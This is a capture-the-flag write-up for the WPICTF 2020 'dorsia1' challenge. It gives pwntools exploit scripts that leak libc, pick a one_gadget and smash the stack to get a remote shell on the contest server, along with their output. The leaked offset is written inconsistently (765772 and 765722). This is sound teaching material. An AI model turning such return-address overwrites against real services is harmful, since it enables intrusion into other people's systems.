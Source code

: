 # WPICTF 2020

## dorsia1

> 100
>
> [http://us-east-1.linodeobjects.com/wpictf-challenge-files/dorsia.webm](../dorsia.webm) The first card.
>
> `nc dorsia1.wpictf.xyz 31337 or 31338 or 31339`
>
> made by: awg
> 
> _Hint: Same libc as dorsia4, but you shouldn't need the file to solve._

Tags: _pwn_ _bof_ _remote shell_


### Analysis

#### Roll the film ([dorsia.webm](../dorsia.webm))

![](dorsia1.png)

Quite possibly one of the best movies scenes ever (your results may vary), augmented with _new pwn_.  And ..., there are two verbal hints in the clip: _stack smash_ and _fgets_.

What I most appreciate about this challenge is that this is a legit fuckup.  You could (and can) actually expect someone to mistype the `69` as `96`.

The hint: _Same libc as dorsia4, but you shouldn't need the file to solve_, was actually delivered later in the challenge as users keep asking for the libc version.  I do not fully agree with that.  For starters is this x86_64, x86, arm, or something else?

The `printf` leaks the location of `system` with an offset (`765772`), this can be used to both determine the version of libc as well as the architecture.

Assuming x86_64 (safe bet) _stack smash_ with 69 bytes + 8 bytes for the saved base pointer then an 8 byte address as the new return address.  That leaves 16 bytes left (15 really since `fgets` will only read 68 bytes (one less than size parameter)).  This is important, because it'll tell you what will not work: `pop rdi; ret`, pointer to `/bin/sh`, `system`.  Which is exactly what I tried first (habit, I prefer this over gadgets because it is portable).  That 96th byte will be a NULL (0x00), and unless the remote libc address space starts with `0x00` (and it does not), then this will not work.  Plan B: try a gadget.

However, there is a 2nd, easier solution, and the hint spells that out for you.  `765772`.  What is that number and what does it mean?  It pays to be curious.


### Exploit

#### Attack Plan

1. Leak libc address
2. Find libc version
3. Find a gadget
2. Get the flag


#### Leak libc address

```python
#!/usr/bin/env python3

from pwn import *

p = remote('dorsia1.wpictf.xyz',31337)

_ = p.recvline().strip()

system = int(_,16) - 765772
print(hex(system))
```


#### Find libc version

```python
import os
stream = os.popen("libc-database/find system " + str(hex(system & 0xFFF)) + " | grep /glibc/ | sed 's/)//' | awk '{print $NF}'")
output = stream.read().strip()
stream.close()

libc = ELF('libc-database/db/' + output + '.so')
baselibc = system - libc.symbols['system']
print("libc:" + str(hex(baselibc)))
print('libc-database/db/' + output + '.so')
```

This code assumes you have the libc-database cloned locally, however there's an online version as well: [https://libc.blukat.me/](https://libc.blukat.me/) (tip from @ins0--thanks!).  Personally I prefer the local version, esp. if searching for gadgets or ROP chains, but it can also take about 30 minutes to download.  Options are good to have.

Running this will output:

```
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
0x783e16412440
[*] '/pwd/datajerk/wpictf2020/dorsia1/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc:0x783e163c3000
libc-database/db/libc6_2.27-3ubuntu1_amd64.so
```

Now we have the libc version and binary.


#### Find a gadget

```
# one_gadget libc-database/db/libc6_2.27-3ubuntu1_amd64.so

0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

`0x4f322` looks the most promising.


#### Get the flag

```python
gadget = 0x4f322

payload  = 69 * b'A'
payload += 8 * b'B'
payload += p64(baselibc + gadget)
payload += (96 - len(payload)) * p8(0)

p.sendline(payload)
p.interactive()
```

Filling the rest of the stack with NULLs is just habit--it can help however with `one_gadget`.

Output:

```
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
0x7386ccfc1440
[*] '/pwd/datajerk/wpictf2020/dorsia1/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc:0x7386ccf72000
libc-database/db/libc6_2.27-3ubuntu1_amd64.so
[*] Switching to interactive mode
$ cat flag.txt
WPI{FEED_ME_A_STRAY_CAT}
```


#### Flag

```
WPI{FEED_ME_A_STRAY_CAT}
```


### Be curious

```python
#!/usr/bin/env python3

from pwn import *

p = remote('dorsia1.wpictf.xyz',31337)

_ = p.recvline().strip()

gadget = int(_,16)

payload  = 69 * b'A'
payload += 8 * b'B'
payload += p64(gadget)
payload += (96 - len(payload)) * p8(0)

p.sendline(payload)
p.interactive()
```

This basically just sends back `system+765722` as the return address in our _stack smash_.

Output:

```
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
[*] Switching to interactive mode
$ cat flag.txt
WPI{FEED_ME_A_STRAY_CAT}
```


#### What is `system+765722`?

Let's find out:

```
# python3
Python 3.7.5 (default, Nov 20 2019, 09:21:52)
[GCC 9.2.1 20191008] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')
[*] '/pwd/datajerk/wpictf2020/dorsia1/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
>>> print(hex(libc.symbols['system'] + 765722))
0x10a35a
```

Looking at the `one_gadget` output above it looks pretty close to `0x10a38c`.



